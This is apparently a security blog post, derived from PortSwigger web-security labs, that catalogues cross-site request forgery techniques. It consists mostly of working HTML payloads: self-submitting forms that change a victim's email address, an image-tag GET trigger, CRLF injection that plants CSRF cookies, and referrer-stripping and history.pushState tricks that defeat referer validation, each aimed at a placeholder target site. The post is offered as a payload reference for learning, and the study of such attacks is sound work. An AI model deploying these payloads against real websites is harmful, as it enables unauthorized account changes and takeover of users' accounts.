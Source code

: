 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Web Security, Payloads ]
---
```

CSRF attacks (Cross-site request forgery) is a type of malicious exploit that aims to perform unauthorized operations that will be executed by a user that the website trusts.

# Table of Contents
1. [CSRF vulnerability without defenses](#CSRFwithoutDefenses)
2. [Token validation depends on request method](#CSRFinGET)
3. [Token validation depends on token presence](#CSRFonPresence)
4. [The CSRF token is not bound to the user's session](#CSRFnotBound)<br>
   4.1. [Same token between users](#SametokenUsers)<br>
   4.2. [Token not linked to the session](#CSRFnotBoundSession)
5. [The token is duplicated in the cookie](#TokenDuplicatedCookie)
6. [CSRF without referrer](#CSRFwithoutReferrer)
7. [Broken Referer Validation](#CSRFRefererBroken)

---

### CSRF vulnerability without defenses <a name="CSRFwithoutDefenses"></a>
**CSRF basic mail**<br>
It makes a request to the endpoint that changes the email and javascript confirms the request, which will change the mail just by visiting the page.

Code from https://web-attacker.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF where token validation depends on request method <a name="CSRFinGET"></a>
Depending on the request method, it can be done with GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@gmail.com"/>
```
---
### CSRF where token validation depends on the presence of the token <a name="CSRFonPresence"></a>
It does not verify the CSRF token, it is removed and bypassed.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF token is not bound to user session <a name="CSRFnotBound"></a>
**Using the same token in both users**<br>
We can use the same CSRF Token in one user than in another, thanks to the fact that the token is not linked to the user's session <a name="SametokenUsers"></a><br>
My token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ works for other users too.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**The CSRF token is not bound to the session** <a name="CSRFnotBoundSession"></a><br>
So the same csrf token and the same csrf key could be used in one account as in another to change the email
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### The CSRF token is simply duplicated into a cookie <a name="TokenDuplicatedCookie"></a>
The token is validated in the cookie, we can make the user create his own csrf token which we indicate.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Since the token was validated in the cookie, we can send the request to change the mail.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="31415926535897932384626433832795028841971">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=31415926535897932384626433832795028841971" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### CSRF without referrer <a name="CSRFwithoutReferrer"></a>
We indicate that the Referer does not exist in the CSRF exploit using the meta tag.



```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@gmail.com" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```


---
### CSRF with broken Referer validation <a name="CSRFRefererBroken"></a>

The page validates the referrer when we want to change mail, **it is determined if the referrer includes the domain of the origin page.**
By modifying the referer with javascript we can evade this validation and be able to exploit the CSRF.

**Modify the Referer:**
 - Using this javascript function `history.pushState()` that adds an entry to the browser's session history stack.
```html
<script>history.pushState("", "", "/?vulnerable-web.com")</script>
```
- Referer validation accepts any header that contains the expected domain somewhere in the chain
```html
Referer: https://web-attacker.com/?vulnerable-web.com
```

**Referrer-Policy**
- Many browsers now remove the query string from the Referrer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request.
- We have to add in the header "Referrer-Policy: unsafe-url"

```html
<meta name="referrer" content="unsafe-url" />
```

```html
<html>
   <head>
      <meta name="referrer" content="unsafe-url" />
   </head>
   <body>
      <script>
         history.pushState("", "", "/?vulnerable-web.com")  
      </script>
      <form action="https://vulnerable-web.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@gmail.com" />
         <input type="submit" value="Submit request" />
      </form>
      <script>document.forms[0].submit();</script>
   </body>
</html>
```

---

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [cobalt.io](https://www.cobalt.io)
